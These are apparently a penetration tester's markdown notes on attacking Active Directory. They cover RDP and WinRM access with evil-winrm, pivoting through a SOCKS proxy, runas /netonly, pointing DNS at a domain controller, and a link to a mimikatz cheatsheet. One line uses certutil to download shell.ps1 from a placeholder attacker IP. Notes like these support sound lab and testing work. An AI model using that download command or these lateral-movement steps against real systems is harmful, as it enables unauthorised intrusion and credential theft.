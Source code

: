 # Active Directory


RDP to connect to jumphost: `xfreerdp /u:${DOMAIN}\\${user} /p:${password} /cert:ignore /v:$RHOST /smart-sizing`
In order to add a shared drive with `xfreedrp`, use `/drive:tmp,/tmp`.
Note that the shared drive can now be accessed programmatically by using the path `\\tsclient\tmp` on the Windows host.

When pivoting with eg. chisel, it can be used with socks proxy by adding `/proxy:"socks5://127.0.0.1:1080"`.


## evil-winrm

Connect to windows host via WinRM with (from kali)
```
evil-winrm -i ${RHOST} -u ${USER} -p ${PW}
```
special characters might need to be escaped from the password.

## Enumeration

### Initial setup

Set network connection credentials to given user on Windows with:
```
runas.exe /netonly /user:<domain>\<username> cmd.exe
```
Commands used for configuring DNS to the domain controller manually in PS:
```
$dnsip = "${DC_IP}"
$index = Get-NetAdapter -Name '${Network_Interface}' | Select-Object -ExpandProperty 'ifIndex'
Set-DnsClientServerAddress -InterfaceIndex $index -ServerAddresses $dnsip
```
`${Network_Interface}` is interface of the network


verify by using nslookup afterwards.


## Post Exploit

[mimikatz cheatsheet](https://kashz.gitbook.io/kashz-jewels/cheatsheet/mimikatz)


## CMD commands to remember

CMD equivalent of wget
```
certutil.exe -urlcache -split -f http://{ATTACKER_IP}:{ATTACKER_PORT}/shell.ps1
```

grep equivalent for cmd: `findstr`

remove a file with force: `del /f`



## Access shared drives

Assuming there is a shared drive on `${COMPUTER_NAME}\shared`, and we have a powershell prompt with access to this shared drive,
we can just do eg `ls ${COMPUTER_NAME}\shared` and other cli commands.

This also works if we have loaded a TGS that grants the access.
